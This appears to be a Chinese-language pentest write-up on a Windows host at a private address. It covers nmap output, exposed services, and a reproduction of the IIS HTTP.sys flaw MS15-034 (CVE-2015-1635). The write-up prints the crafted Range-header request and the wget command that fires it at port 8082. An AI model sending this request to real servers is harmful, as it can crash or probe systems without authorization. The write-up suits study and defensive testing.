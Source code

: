 ```shell
OS CPE: cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_vista::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_7
OS details: Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

乍一看，跑了这么多服务。初步判断很可能有漏洞。

总结，这是一台操作系统为 **Windows**（目前未能确认具体版本）的，运行着 FileZilla FTP、MySQL 5.5.19、Web 等服务；而且开放了太多端口。

Web 服务器端口：~~80~~、999、~~8080~~、8082；运行着这么几个 Web 服务。

不过经确认，只有 **999 Apache** 和 **8082 IIS** 两个端口提供的 Web 服务正常。

且，999 端口运行着 **phpMyAdmin**（一个以 PHP 为基础，以基于 Web 方式架构在网站主机上的 MySQL 的数据库管理工具，让管理者可用 Web 接口管理 MySQL 数据库），当然也是漏洞多多。

## 远程代码执行？？？

在~~一顿瞎操作下~~，其实是利用扫描器加手动验证；找到一个致命漏洞，该漏洞存在于端口 **8082 IIS** 服务器上。

### MS15-034 复现

**HTTP.sys 远程执行代码漏洞 - CVE-2015-1635**

> 当 HTTP.sys 未正确分析经特殊设计的 HTTP 请求时会导致此漏洞。 成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码。

    若要利用此漏洞，攻击者必须将经特殊设计的 HTTP 请求发送到受影响的系统。 通过修改 Windows HTTP 堆栈处理请求的方式，此更新可以修复此漏洞。


    [https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2015/ms15-034#vulnerability-in-httpsys-could-allow-remote-code-execution-3042553](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2015/ms15-034#vulnerability-in-httpsys-could-allow-remote-code-execution-3042553)

根据微软安全公告，此漏洞貌似可以远程任意代码执行；但就实际复现来说，好像并不成立。

通过给 **IIS** 服务器发送如下 HTTP 请求，便可触发这个漏洞。

```text
GET / HTTP/1.1
Host: stuff
Range: bytes=0-18446744073709551615


```

而我就直接使用的 **wget** 测试此漏洞，当然还可以使用 **curl** 和 **MSF**。

```shell
$ wget --header="Range: bytes=0-18446744073709551615" <http://192.168.3.72:8082/Images/top01.gif>
--2019-08-13 23:44:03--  <http://192.168.3.72:8082/Images/top01.gif>
Connecting to 192.168.3.72:8082... connected.
HTTP request sent, awaiting response... 416 Requested Range Not Satisfiable
    The file is already fully retrieved; nothing to do.
```
